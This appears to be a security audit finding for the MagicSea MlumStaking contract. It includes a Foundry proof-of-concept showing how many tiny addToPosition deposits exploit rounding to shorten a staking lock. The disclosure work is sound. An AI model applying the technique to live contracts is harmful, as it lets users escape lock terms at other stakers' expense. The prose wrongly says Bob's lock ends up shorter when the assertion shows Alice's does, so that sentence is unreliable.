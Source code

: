Proud Coral Terrier

Medium

# Any user can reduce the lockDuration by using the addToPosition function in the MlumStaking contract


## Summary
The `addToPosition` function is intended to add an amount to an existing staking position.
However, due to an incorrect calculation of `avgDuration`, any user can exploit this function to reduce the `lockDuration`.

## Vulnerability Detail
The `addToPosition` function recalculates the `avgDuration` using the following formula:
```solidity
    uint256 avgDuration = (remainingLockTime * position.amount + amountToAdd * position.initialLockDuration) / (position.amount + amountToAdd);
```
This calculation suffers from precision loss, allowing users to manipulate and reduce the `lockDuration`.

## PoC

Add this function to the test/MlumStaking.t.sol
```solidity
    function testAddToPosition() public {
        _stakingToken.mint(ALICE, 200 ether);
        _stakingToken.mint(BOB, 200 ether);

        vm.startPrank(ALICE);
            _stakingToken.approve(address(_pool), 100 ether);
            _pool.createPosition(1 ether, 1 days);
        vm.stopPrank();

        vm.startPrank(BOB);
            _stakingToken.approve(address(_pool), 100 ether);
            _pool.createPosition(1 ether, 1 days);
        vm.stopPrank();

        skip(43200);

        vm.startPrank(ALICE);
            for (uint256 i = 0; i < 10000; i++) {
                _pool.addToPosition(1, 0.0001 ether);
            }
        vm.stopPrank();

        vm.startPrank(BOB);
            _pool.addToPosition(2, 1 ether);
        vm.stopPrank();

        assertEq(_pool.getStakingPosition(1).amount, _pool.getStakingPosition(2).amount);
        assertEq(_pool.getStakingPosition(1).lockDuration, _pool.getStakingPosition(2).lockDuration);
    }
    // Result
    // [FAIL. Reason: assertion failed: 60900 != 64800] testAddToPosition() (gas: 211587337)
```
Alice and Bob each create a staking position with 1 ether and a lockDuration of 1 day.
Alice repeatedly adds 0.0001 ether to her position 10,000 times.
Bob adds 1 ether to his position in a single transaction.
The `lockDuration` of Alice and Bob should be the same, but due to the precision loss, Bob's `lockDuration` is shorter by 3,900 seconds (1.08 hours).
If Alice further splits the amounts within the gas limit, she can reduce the lockDuration even more.


## Impact
This issue allows any user to reduce the `lockDuration` by repeatedly adding small amounts to an existing staking position.

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L410

## Tool used
Manual Review

## Recommendation
To avoid precision loss, consider using a rounding-up method for the `avgDuration` calculation.


